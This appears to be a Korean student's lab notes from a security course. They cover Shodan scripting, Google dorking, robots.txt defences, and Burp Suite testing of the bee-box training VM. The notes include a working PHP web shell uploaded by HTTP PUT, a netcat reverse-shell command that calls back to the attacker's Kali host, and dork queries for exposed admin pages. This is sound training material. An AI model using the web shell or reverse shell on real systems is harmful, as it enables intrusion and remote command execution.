

### shodan python api 활용한 스크립트 개발

shodan_mongodb.py 생성


mongodb와 관련된거 검색


### 검색 인자값을 받아서 검색


실습

1. FTP 익명 연결로 된 사이트 주소
2. 제일 위에 검색한 결과의 수 (count)


### facet 사용




### hfs

다음과 같이 작성 후


hfs.txt에 덤프하도록


mitaka : 안전한지 악성코드인지 검색할 수 있는 오픈소스

---

## 구글 해킹(googledork)

정확히 말하면 구글의 검색옵션을 활용하여 노출된 정보 검색

1. 관리자 페이지에 중요 엑셀(개인정보 포함)
2. 관리자의 로그인 페이지가 접근이 되는지
3. 서버의 로그 파일들이 외부에 노출되는지
4. 서버 설정이 미흡 index of 취약점 - 상위 디렉터리 정보 노출


다음과 같이 검색기능을 쓸 수 있다.


만약 이렇게 검색하면, 네이버 중에서 네이버를 제외하고 파일 타입이 pdf인 놈들 검색하겠다는 뜻

```
site:naver.com -site:www.naver.com filetype:pdf
```

다음과 같이 검색하면, url에 admin이 포함된 사이트를 검색할 수 있다

```
site:naver.com inurl:admin
```

인타이틀 검색

```
site:google.com intitle:admin
```


하지만 본인이 취약점 점검할 사이트를 이런식으로 일일이 찾는 것은 불가능하다

역시 https://www.exploit-db.com/에서 검색해서 찾는다


웹 스캔 도구 대표 (유료)

Accunetix

Appscan

Burpsutie Pro

---

### shodan 막는법

- IPS/방화벽 등에 IP 차단 -> 더 이상 포트스캔 불가능, 정보수집 안 됨

### 구글 

검색 안되게 조치

- 페이지 삭제 요청

- 크롤링 하지 못하게 설정

  https://www.google.com/robots.txt robots.txt는 검색로봇에게 사이트 및 웹페이지를 수집할 수 있도록 허용하거나 제한하는 [국제 권고안](https://www.ietf.org/id/draft-koster-rep-00.txt)입니다.

  ```sh
  User-agent: GoodBot
  Disallow:
  
  User-agent: BadBot # 접근하지마
  Disallow: /
  
  User-agent: * # 모든 사용자 접근하지마
  Disallow: /admin/
  Disallow: /documents/
  Disallow: /images/
  Disallow: /passwords/
  ```

  

임의의 robots.txt를 보면,


각 경로로 접근해보자. 버전정보 역시 문제다


그럼 보안을 위해서 모든 것을 막는 것이 답일까?


이렇게 하면 구글에서 크롤링을 절대 못하지만, 마찬가지로 외부에 노출이 안 되기 때문에 돈을 못번다.

<br/>

과제) 구글 해킹 GHDB를 이용해 활용한 오픈소스 도구를 조사하고 실습하기

​		  Shodan을 활용한 오픈 소스 파이썬 도구 조사 실습


아무튼 지금까지 OSINT(공개출처정보는 공개된 출처에서 얻은 정보들을 말한다)에 대해 공부했다

---

## Burp suite / Bee box

먼저 프록시란?

프록시란 대리라는 의미로 클라이언트와 웹 사이에 중계기라 생각하면 된다.

bee box를 가상머신으로 실행하면 ifconfig로 ip를 확인하고 로컬 웹에서 접속 가능해진다


먼저 스코프를 추가해준다


이렇게


그리고 Proxy - option - request에서 intercept와 and, response에서 intercept와 and 총 4개를 선택해준다


이제 브라우저를 열고 네이버 같은 사이트 들어가면 인증서 오류가 뜬다


http://burp/에 들어가서 인증서를 설치한다.

다운 받은 파일을 열어서 현재 사용자를 선택하고 다음과 같이 선택한다


다시 kali linux로 돌아가서 다음 명령어를 입력한다


여러가지 취약점이 나오는 것을 확인할 수 있다.


하나 들어가보자. 민감한 정보가 나왔다.


<br/>


### HTTP method 조작

다시 purp suite로 돌아와서 GET을 PUT 명령어로 바꿔 입력하면


다음과 같이 화면이 뜨고


파일이 생성된 것을 확인할 수 있다.


하나 더 해보자. 다음과 같이 바꾸고 새로고침하면,


정말로 info를 가져온 것을 확인할 수 있다 ㄷㄷ...


<br/>

### 웹쉘

웹쉘은 업로드 취약점을 통하여 시스템에 명령을 내릴 수 있는 코드를 말한다.

이중 하나를 보자. 공격용법이 나온다.


똑같이 PUT 입력하고 shell.php를 아래 내용으로 작성해주자

```php
<?php
    echo "<pre>"; // 정렬되게
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
	echo "</pre>";
    die;
?>
```

그러면 다음과 같이 뜬다


여기에 웹주소에 리눅스 명령어 입력해주면


ㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷ

<br/>

이제 웹에서 말고 cmd창에 들어가서 진짜 해킹해보겠다 ㄷㄷㄷㄷㄷㄷㄷ

리버스쉘(reverse shell)

공격자(kali linux) 포트는 리스닝 7777 <-- PC의 권한, 사용자의 권한

<br/>

kali linux에서 7777포트로 리스닝하자.

```sh
$ nc -lvc 7777
```

그리고 웹cmd에 아래와 같이 입력하자.

```
만든.php?cmd=nc [kali ip] 7777 -e /bin/bash
```


입력하면 kali linux에서 리버스쉘 접속이 가능해진다(피공격자 리눅스에 접속).


<br/>

### Wireshark

패킷 분석 프로그램으로 어떤 공격인지 확인이 필요할 때 사용함. 버프스윗 안쓰고 파일 올리기 가능. 스타트 캡처링 패킷을 눌러서 시작한 후,


cadaver  : 웹 취약점을 자동으로 공격하는 칼리리눅스 도구 중 하나

파일 올릴 주소로 접속해주자


이제 다음과 같이 써주면


올라가 있는 것을 확인할 수 있다.


이제 이 파일에 들어가서 다음과 같이 써주면


유저 두명 정보를 해킹했다 ㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷ


<br/>

번외로 와이어 샤크는 실시간으로 패킷을 수집함


<br/>

### davtest

사용하기 위험하다. 수동이 아니라 자동이기 때문에 불필요한 파일들도 많이 생성한다.

일단 개념은, 테스트 실행파일을 업로드 한 다음 명령실행이나 다른 작업을 대상으로 직접 수행할 수 있도록 파일을 업로드하여 webdav 지원 서버를 테스트하는 툴

